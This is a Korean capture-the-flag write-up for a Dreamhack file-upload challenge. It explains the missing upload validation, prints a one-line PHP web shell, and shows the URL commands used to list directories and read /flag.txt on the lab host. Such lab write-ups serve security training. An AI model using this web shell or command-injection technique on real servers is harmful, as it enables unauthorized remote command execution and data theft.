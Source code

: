 ## 📍image-storage

```
php로 작성된 파일 저장 서비스입니다.
파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.
```

이런 구조로 되어 있다.

![](Attachments/{0D362402-3485-4BD2-9A1E-3CD287E7B182}.png)

![](Attachments/{22A765A1-9525-4935-9E30-C84DED1D3FEA}.png)

아무 파일이나 업로드하면 `/upload.php`로 이동하며 저장된 경로를 보여준다.

![](Attachments/{6A4917FA-988E-42BD-A197-6BF662234EBF}.png)

List로 가보면 업로드된 폴더명과 파일명이 보인다.

![](Attachments/{8893849E-0119-475A-BA23-4ED0B18086E3}.png)


#### 소스코드

upload.php는 이용자가 업로드한 파일을 `uploads` 폴더에 복사한다.
![](Attachments/{2122089A-A492-40EB-8E35-AA978022BC29}.png)


#### 취약점

업로드한 파일에 대해 아무 검사도 하지 않으므로 웹 셸 업로드 공격에 취약하다.


#### 해결

php 웹셸을 업로드하고 방문하면 서버의 셸을 획득할 수 있다.

```php
<?php
	system($_GET[cmd]);
?>

/* 이런 파일을 업로드 하고
?cmd=ls를 URL로 주면 공격 가능! */
```

구글링해서 찾은 웹셸을 `.php`로 저장하고 업로드한 뒤 저장된 경로로 들어간다.

```
http://host3.dreamhack.games:21649/uploads/webshell.php
```

여기서 `?cmd=ls`를 URL로 주면 공격 가능하다고 되어 있다. 넣어보면 커맨드가 작동한다.
![](Attachments/{C51C5155-A75E-4758-A618-93CB0A226AB4}.png)

상위 경로로 가본다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20../
```
![](Attachments/{C924132D-06F3-4A27-92E1-30D4AA6D2F97}.png)
- `%20`: URL에서 공백을 나타냄

루트 경로로 찾아간다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20/
```
![](Attachments/{030E2FDE-D5B3-488A-8BC3-D4641C3E22F4}.png)

`flag.txt`의 경로를 알아냈으니, `cat` 커맨드로 `flag.txt`를 읽어보면 끝!
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=cat%20/flag.txt
```
![](Attachments/{B6803AEE-18CB-4AF2-821F-C99892977B48}.png)
